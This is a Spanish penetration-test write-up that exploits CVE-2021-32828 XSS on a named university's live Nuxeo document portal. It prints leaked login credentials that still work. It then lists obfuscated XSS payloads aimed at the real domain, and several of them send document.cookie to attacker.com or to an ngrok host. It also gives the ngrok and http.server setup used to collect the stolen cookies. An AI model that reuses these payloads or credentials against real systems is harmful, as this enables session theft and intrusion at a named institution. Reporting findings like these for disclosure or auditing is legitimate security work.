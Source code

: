 ## Hallazgo: Nuxeo - XSS escalada a RCE (CVE-2021-32828)

### 1. Acceso inicial a la plataforma

Se accedió al portal institucional de Nuxeo mediante la siguiente URL:
```
https://documental.portaloas.udistrital.edu.co/nuxeo/login.jsp?requestedUrl=ui%2F
```
Allí se cargó correctamente la interfaz gráfica de inicio de sesión de Nuxeo.

![Interfaz gráfica login Nuxeo](/images/name/image-WOanJdHL.png)

Se utilizaron credenciales filtradas y aún válidas para iniciar sesión:

- **Usuario:** desarrollooas  
- **Contraseña:** desarrollooas2019

El navegador (Google Chrome) advirtió que dichas credenciales han sido comprometidas en filtraciones previas.

![Advertencia de Chrome sobre credenciales filtradas](/images/name/image-jJVecXAH.png)

---

### 2. Exploración y descubrimiento del motor web

Una vez autenticado, se identificó que la plataforma ejecuta el sistema **Nuxeo Web Engine**.

![Interfaz Nuxeo Web Engine](/images/name/image-bCg4hNS1.png)

Aunque no se logró identificar con exactitud la versión del sistema, se realizó una enumeración de directorios que reveló rutas relacionadas con OAuth, en particular:
```
/nuxeo/site/oauth2/
```

OAuth (Open Authorization) es un protocolo estándar que permite a las aplicaciones obtener acceso limitado a cuentas de usuario sin exponer las credenciales.

![Enumeración de directorios relevantes](/images/name/image-GTzFZFl1.png)

---

### 3. Identificación de vulnerabilidad (CVE-2021-32828)

Con base en los resultados anteriores, se investigaron vulnerabilidades conocidas en Nuxeo relacionadas con OAuth. Se identificó la siguiente:

- **CVE-2021-32828**: En versiones anteriores a la 11.5.109, la API REST `/oauth2` de Nuxeo es vulnerable a ataques de **Cross-Site Scripting (XSS)**. Este ataque puede ser escalado a **Remote Code Execution (RCE)** mediante el uso de la API de automatización.

**Referencia oficial:**
https://securitylab.github.com/advisories/GHSL-2021-072-nuxeo

![Referencia CVE](/images/name/image-oXBJZByq.png)

**Endpoint vulnerable:**
```
/nuxeo/site/oauth2/{serviceProviderName}/callback
```

---

### 4. Prueba de concepto (XSS básico)

Se probó un payload XSS clásico apuntando directamente al endpoint vulnerable:
```
https://documental.portaloas.udistrital.edu.co/nuxeo/site/oauth2/%3Cimg%20src%20onerror=alert(document.domain)%3E/callback
```

El resultado fue exitoso, mostrando una alerta con el dominio del sitio.

![XSS exitoso con alert](/images/name/image-KGStg2qU.png)

---

### 5. Análisis de RCE potencial

El blog de Álvaro Muñoz describe una posible explotación para escalar el XSS a RCE usando carga de scripts externos:
```
http://localhost:8080/nuxeo/site/oauth2/%3Cimg%20src%20onerror%3Da%3Ddocument.createElement('script')%3ba.setAttribute('src',document.location.hash.substr(1))%3bdocument.head.appendChild(a)%3E/callback#//attacker.ngrok.io/exploit.js
```

Sin embargo, este método no funcionó en el entorno evaluado. Se intentaron variaciones del payload, pero el sistema interpretaba el contenido como texto plano y no lo ejecutaba directamente. Se procedió a probar distintos vectores XSS alternativos.

---

### 6. Pruebas de payloads alternativos

Se exploraron varias técnicas para evadir filtros o mejorar la ejecución del código inyectado:

- **Payload 1: onerror + eval con Base64**

<img src=x onerror=eval(atob("YWxlcnQoJ1hTUycp"))>

> Decodificado: `alert('XSS')`

- **Payload 2: SVG con evento onload**

<svg onload=eval(atob("YWxlcnQoZG9jdW1lbnQuY29va2llKQ=="))>

> Decodificado: `alert(document.cookie)`

- **Payload 3: iframe con srcdoc**

<iframe srcdoc="<script>alert(1)</script>"> ```


**Payload 4: script tag directo**
```
https://documental.portaloas.udistrital.edu.co/nuxeo/site/oauth2/<script>alert(1)</script>/callback
```

**Payload 5: Codificación hexadecimal en el evento**
```
https://documental.portaloas.udistrital.edu.co/nuxeo/site/oauth2/<img src=x o%6Eerror=alert(1)>/callback
```

**Payload 6: Comentario HTML para evadir detección**
```
https://documental.portaloas.udistrital.edu.co/nuxeo/site/oauth2/<img src=x onerror=eval/--/(atob("YWxlcnQoMSk="))>/callback
```
> alert(1)

**Payload 7: Exfiltración con location.href**
```
https://documental.portaloas.udistrital.edu.co/nuxeo/site/oauth2/<img src=x onerror=location.href='https://attacker.com?c='+document.cookie>/callback
```

**Payload 8: Interacción con DOM**
```
https://documental.portaloas.udistrital.edu.co/nuxeo/site/oauth2/<img src=x onerror=alert(document.body.innerHTML)>/callback
```

De todas las pruebas, los payloads exitosos fueron:
```
<svg onload=eval(atob("YWxlcnQoZG9jdW1lbnQuY29va2llKQ=="))>/callback
<img src=x onerror=eval(atob("YWxlcnQoJ1hTUycp"))>/callback
<img src=x o%6Eerror=alert(1)>/callback
<img src=x onerror=alert(document.body.innerHTML)>/callback
```

Se observó que los payloads codificados en Base64 tenían una alta tasa de éxito. De ello se dedujo que una plantilla efectiva para explotación sería:
```
<img src=x onerror=eval(atob("COMANDO_EN_BASE64"))>/callback
```

---

### 7. Recolección de datos vía XSS

Se preparó un entorno para capturar información enviada desde el navegador víctima.

### Iniciar Servicios

Abre dos terminales o pestañas separadas para ejecutar los siguientes comandos:

1. **Iniciar túnel con Ngrok en el puerto 80:**

```bash
ngrok http 80
```

2. **Iniciar servidor web en el puerto 80:**

```bash
python3 -m http.server 80
```


---

### 8. Explotación con redirección de datos

Se ejecutó el siguiente payload XSS que realiza una petición hacia el servidor controlado por el atacante:
```
https://documental.portaloas.udistrital.edu.co/nuxeo/site/oauth2/%3Cimg%20src=x%20onerror=eval(atob(%22aT1uZXcgSW1hZ2UoKTtpLnNyYz0iaHR0cHM6Ly9hNTZmYWE1ZDcyYjIubmdyb2stZnJlZS5hcHAvbG9nP2M9Iitkb2N1bWVudC5jb29raWU7%22))%3E/callback
```

![Payload XSS apuntando al servidor atacante](/images/name/image-D8bfOXVj.png){width="auto"}

La petición fue recibida exitosamente en el servidor del atacante.

![Petición recibida en servidor atacante](/images/name/image-zSdZcElN.png){width="auto"}

---

### 9. Confirmación de cookies obtenidas

A pesar del error 404, se verificó que las cookies recibidas coincidían con aquellas no protegidas por las banderas `HttpOnly` ni `Secure`, lo que permite su exposición vía JavaScript.

![Comparación entre cookies recibidas y cookies de la víctima](/images/name/image-ynoDslmW.png){width="auto"}








